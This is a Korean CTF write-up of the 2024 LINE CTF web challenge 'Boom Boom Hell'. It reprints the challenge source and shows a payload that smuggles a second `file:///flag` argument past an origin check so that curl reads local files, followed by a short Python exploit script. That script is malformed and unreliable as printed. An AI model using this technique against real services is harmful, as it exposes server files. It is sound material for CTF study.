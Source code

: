 ```yaml
---
title: Boom Boom Hell - Unintened Solve
date: 2024-04-19
author: glasses96
categories: [CTF]
tags: [2024 Line CTF, WEB, Boom Boom Hell]
pin: true
math: true
mermaid: true
---
```


> **2024 Line CTF에서 웹 문제인 Boom Boom Hell을 언인텐하여 풀이를 적어보고자 합니다.** 
{: .prompt-info }

<span style="color:#9999FF"></span>

## Boom Boom Hell
중요 코드의 해석은 아래와 같습니다.  

1. `/chall` 엔드포인트에 `url` 파라미터를 제어할 수 있습니다.  
2. `if문 2개`를 통과해야 합니다.  
- url의 파라미터의 길이가 escapeHTML(url)된 길이보다 작거나 같아야 함  
- URL(url) 객체된 origin이 `https://www.lycorp.co.jp` 이여야함

3. URL 객체를 만들어 `curl (url)`를 보내 해당 응답을 출력합니다.

```javascript
import {$, escapeHTML} from "bun";
import qs from "qs";

const port = process.env.PORT || 3000;
const logFile = process.env.LOGFILE || ".log";

const server = Bun.serve({
    host: "0.0.0.0",
    port: port,
    async fetch(req) {
        const url = new URL(req.url);
        if (url.pathname === "/chall") {
            const params = qs.parse(url.search, {ignoreQueryPrefix: true});
            if (params.url.length < escapeHTML(params.url).length) {    // dislike suspicious chars
                return new Response("sorry, but the given URL is too complex for me");
            }

            const lyURL = new URL(params.url, "https://www.lycorp.co.jp");
            if (lyURL.origin !== "https://www.lycorp.co.jp") {
                return new Response("don't you know us?");
            }

            const rawFetched = await $`curl -sL ${lyURL}`.text();
            const counts = {
                "L": [...rawFetched.matchAll(/LINE/g)].length,
                "Y": [...rawFetched.matchAll(/Yahoo!/g)].length,
            }
            await $`echo $(date '+%Y-%m-%dT%H:%M:%S%z') - ${params.url} ::: ${JSON.stringify(counts)} >> ${logFile}`;

            const highlighted = escapeHTML(rawFetched)
                .replace(/LINE/g, "<mark style='color: #06C755'>$&</mark>")
                .replace(/Yahoo!/g, "<mark style='color: #FF0033'>$&</mark>");
            const html = `
                <h1>Your score is... 🐐<${counts.L + counts.Y}</h1>
                <details open>
                    <summary>Result</summary>
                    <blockquote>${highlighted}</blockquote>            
                </details>
            `;
            return new Response(html, {headers: {"Content-Type": "text/html; charset=utf-8"}});
        } else {
            return new Response("🎶😺≡≡≡😺🎶 Happy Happy Happy~")
        }
    }
});
console.log(`😺 on http://localhost:${server.port}`);
```

![result](/assets/post/58/1.png)

### How to Exploit?
제가 제일 먼저 생각한 방법은 curl을 이용하는 것 이였습니다.
curl의 응답 내용을 보여주기에 URL에 file scheme을 넣어 FLAG를 찾는 방향이였습니다.  

```javascript
const rawFetched = await $`curl -sL ${lyURL}`.text();
```

1. curl을 두번 요청 하게 한다  
- <span style="color:#9999FF">curl {a} {b}</span> 이런식으로 요청하게되면 두개를 보내게 됩니다.  
2. origin 우회  
- <span style="color:#9999FF">https://www.lycorp.co.jp?\` \`file:///flag`</span>
- 위와같이 전달하게 되면 origin은 https://www.lycorp.co.jp가 됩니다.  

![origin](/assets/post/58/2.png)

### But....?
FLAG가 잘 나오는 것을 확인했습니다.  
![FLAG](/assets/post/58/3.png)


`다만 FLAG가 나왔지만 디버깅을 해보니 생각과는 다르게 뒤에 요청만 전달` 하네요..?

```javascript
const lyURL = new URL(params.url, "https://www.lycorp.co.jp");
console.log(lyURL);

const rawFetched = await $`curl -sL ${lyURL}`.text();
console.log(rawFetched);
```

![debugging](/assets/post/58/4.png)


## Exploit Code

Exploit Code 입니다.  

```py
import requests
http://34.146.180.210:3000/chall?url=https://www.lycorp.co.jp?``file:///flag"
info = lambda x : print(f"[+] {x}")


res = requests.get(URL)
info(f"flag = {res.text}")
```


## 후기
인텐풀이는 raw 속성을 주어 unescape를 통한 command injection 문제였습니다.  
docs를 봤는데 너무 대충봤나 봅니다... 보고도 넘어갔네요...  

문제를 풀어보니 좀 더 소스코드를 잘 분석하고 + 독스도 꼼꼼히 읽어 많은 문제들을 잘 풀고 싶네요  
그래도 항상 언인텐은 짜릿함!